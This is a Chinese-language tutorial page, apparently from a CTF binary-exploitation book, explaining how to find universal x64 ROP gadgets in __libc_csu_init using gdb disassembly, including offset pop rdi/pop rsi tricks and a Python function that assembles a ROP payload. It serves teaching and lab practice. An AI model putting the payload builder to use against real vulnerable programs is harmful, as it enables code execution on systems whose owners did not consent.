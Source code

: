 # 通用 gadget

## __libc_csu_init()

我们知道在程序编译的过程中，会自动加入一些通用函数做初始化的工作，这些初始化函数都是相同的，所以我们可以考虑在这些函数中找到一些通用的 gadget，在 x64 程序中，就存在这样的 gadget。x64 程序的前六个参数依次通过寄存器 rdi、rsi、rdx、rcx、r8、r9 进行传递，我们所找的 gadget 自然也是针对这些寄存器进行操作的。

函数 `__libc_csu_init()` 用于对 libc 进行初始化，只要程序调用了 libc，就一定存在这个函数。由于每个版本的 libc 都有一定区别，这里的版本如下：

```text
$ file /usr/lib/libc-2.26.so
/usr/lib/libc-2.26.so: ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /usr/lib/ld-linux-x86-64.so.2, BuildID[sha1]=f46739d962ec152b56d2bdb7dadaf8e576dbf6eb, for GNU/Linux 3.2.0, not stripped
```

下面用 6.1 pwn hctf2016 brop 的程序来做示范，使用 `/r` 参数可以打印出原始指令的十六进制：

```text
gdb-peda$ disassemble /r __libc_csu_init
Dump of assembler code for function __libc_csu_init:
   0x00000000004007d0 <+0>:     41 57   push   r15
   0x00000000004007d2 <+2>:     41 56   push   r14
   0x00000000004007d4 <+4>:     49 89 d7        mov    r15,rdx
   0x00000000004007d7 <+7>:     41 55   push   r13
   0x00000000004007d9 <+9>:     41 54   push   r12
   0x00000000004007db <+11>:    4c 8d 25 16 06 20 00    lea    r12,[rip+0x200616]        # 0x600df8
   0x00000000004007e2 <+18>:    55      push   rbp
   0x00000000004007e3 <+19>:    48 8d 2d 16 06 20 00    lea    rbp,[rip+0x200616]        # 0x600e00
   0x00000000004007ea <+26>:    53      push   rbx
   0x00000000004007eb <+27>:    41 89 fd        mov    r13d,edi
   0x00000000004007ee <+30>:    49 89 f6        mov    r14,rsi
   0x00000000004007f1 <+33>:    4c 29 e5        sub    rbp,r12
   0x00000000004007f4 <+36>:    48 83 ec 08     sub    rsp,0x8
   0x00000000004007f8 <+40>:    48 c1 fd 03     sar    rbp,0x3
   0x00000000004007fc <+44>:    ff 15 f6 07 20 00       call   QWORD PTR [rip+0x2007f6]        # 0x600ff8
   0x0000000000400802 <+50>:    48 85 ed        test   rbp,rbp
   0x0000000000400805 <+53>:    74 1f   je     0x400826 <__libc_csu_init+86>
   0x0000000000400807 <+55>:    31 db   xor    ebx,ebx
   0x0000000000400809 <+57>:    0f 1f 80 00 00 00 00    nop    DWORD PTR [rax+0x0]
   0x0000000000400810 <+64>:    4c 89 fa        mov    rdx,r15
   0x0000000000400813 <+67>:    4c 89 f6        mov    rsi,r14
   0x0000000000400816 <+70>:    44 89 ef        mov    edi,r13d
   0x0000000000400819 <+73>:    41 ff 14 dc     call   QWORD PTR [r12+rbx*8]
   0x000000000040081d <+77>:    48 83 c3 01     add    rbx,0x1
   0x0000000000400821 <+81>:    48 39 dd        cmp    rbp,rbx
   0x0000000000400824 <+84>:    75 ea   jne    0x400810 <__libc_csu_init+64>
   0x0000000000400826 <+86>:    48 83 c4 08     add    rsp,0x8
   0x000000000040082a <+90>:    5b      pop    rbx
   0x000000000040082b <+91>:    5d      pop    rbp
   0x000000000040082c <+92>:    41 5c   pop    r12
   0x000000000040082e <+94>:    41 5d   pop    r13
   0x0000000000400830 <+96>:    41 5e   pop    r14
   0x0000000000400832 <+98>:    41 5f   pop    r15
   0x0000000000400834 <+100>:   c3      ret
End of assembler dump.
```

从中提取出两段（必须以ret结尾），把它们叫做 part1 和 part2：

```text
   0x000000000040082a <+90>:    5b      pop    rbx
   0x000000000040082b <+91>:    5d      pop    rbp
   0x000000000040082c <+92>:    41 5c   pop    r12
   0x000000000040082e <+94>:    41 5d   pop    r13
   0x0000000000400830 <+96>:    41 5e   pop    r14
   0x0000000000400832 <+98>:    41 5f   pop    r15
   0x0000000000400834 <+100>:   c3      ret
```

```text
   0x0000000000400810 <+64>:    4c 89 fa        mov    rdx,r15
   0x0000000000400813 <+67>:    4c 89 f6        mov    rsi,r14
   0x0000000000400816 <+70>:    44 89 ef        mov    edi,r13d
   0x0000000000400819 <+73>:    41 ff 14 dc     call   QWORD PTR [r12+rbx*8]
   0x000000000040081d <+77>:    48 83 c3 01     add    rbx,0x1
   0x0000000000400821 <+81>:    48 39 dd        cmp    rbp,rbx
   0x0000000000400824 <+84>:    75 ea   jne    0x400810 <__libc_csu_init+64>
   0x0000000000400826 <+86>:    48 83 c4 08     add    rsp,0x8
   0x000000000040082a <+90>:    5b      pop    rbx
   0x000000000040082b <+91>:    5d      pop    rbp
   0x000000000040082c <+92>:    41 5c   pop    r12
   0x000000000040082e <+94>:    41 5d   pop    r13
   0x0000000000400830 <+96>:    41 5e   pop    r14
   0x0000000000400832 <+98>:    41 5f   pop    r15
   0x0000000000400834 <+100>:   c3      ret
```

part1 中连续六个 pop，我们可以通过布置栈来设置这些寄存器，然后进入 part2，前三条语句（r15->rdx、r14->rsi、r13d->edi）分别给三个参数寄存器赋值，然后调用函数，这里需要注意的是第三句是 r13d（r13低32位）给 edi（rdi低32位）赋值，即使这样我们还是可以做很多操作了。

另外为了让程序在调用函数返回后还能继续执行，我们需要像下面这样进行构造：

```text
pop rbx     #必须为0
pop rbp     #必须为1
pop r12     #函数地址
pop r13     #edi
pop r14     #rsi
pop r15     #rdx
ret         #跳转到part2
```

下面附上一个可直接调用的函数：

```python
def com_gadget(part1, part2, jmp2, arg1 = 0x0, arg2 = 0x0, arg3 = 0x0):
    payload  = p64(part1)   # part1 entry pop_rbx_pop_rbp_pop_r12_pop_r13_pop_r14_pop_r15_ret
    payload += p64(0x0)     # rbx must be 0x0
    payload += p64(0x1)     # rbp must be 0x1
    payload += p64(jmp2)    # r12 jump to
    payload += p64(arg1)    # r13 -> edi    arg1
    payload += p64(arg2)    # r14 -> rsi    arg2
    payload += p64(arg3)    # r15 -> rdx    arg3
    payload += p64(part2)   # part2 entry will call [r12+rbx*0x8]
    payload += 'A' * 56     # junk 6*8+8=56
    return payload
```

上面的 gadget 是显而易见的，但如果有人精通汇编字节码，可以找到一些比较隐蔽的 gadget，比如说指定一个位移点再反编译：

```text
gdb-peda$ disassemble /r 0x0000000000400831,0x0000000000400835
Dump of assembler code from 0x400831 to 0x400835:
   0x0000000000400831 <__libc_csu_init+97>:     5e      pop    rsi
   0x0000000000400832 <__libc_csu_init+98>:     41 5f   pop    r15
   0x0000000000400834 <__libc_csu_init+100>:    c3      ret
End of assembler dump.
```

```text
gdb-peda$ disassemble /r 0x0000000000400833,0x0000000000400835
Dump of assembler code from 0x400833 to 0x400835:
   0x0000000000400833 <__libc_csu_init+99>:     5f      pop    rdi
   0x0000000000400834 <__libc_csu_init+100>:    c3      ret
End of assembler dump.
```

`5e` 和 `5f` 分别是 `pop rsi` 和 `pop rdi` 的字节码，于是我们可以通过这种方法轻易地控制 `rsi` 和 `rdi`。

在 6.1.1 pwn HCTF2016 brop 的 exp 中，我们使用了偏移后的 `pop rdi; ret`，而没有用 `com_gadget()` 函数，感兴趣的童鞋可以尝试使用它重写 exp。

除了上面介绍的 `__libc_csu_init()`，还可以到下面的函数中找一找：

```text
_init
_start
call_gmon_start
deregister_tm_clones
register_tm_clones
__do_global_dtors_aux
frame_dummy
__libc_csu_init
__libc_csu_fini
_fini
```

总之，多试一试总不会错。

## 参考资料

- [一步一步学 ROP 系列](https://github.com/zhengmin1989/ROP_STEP_BY_STEP)
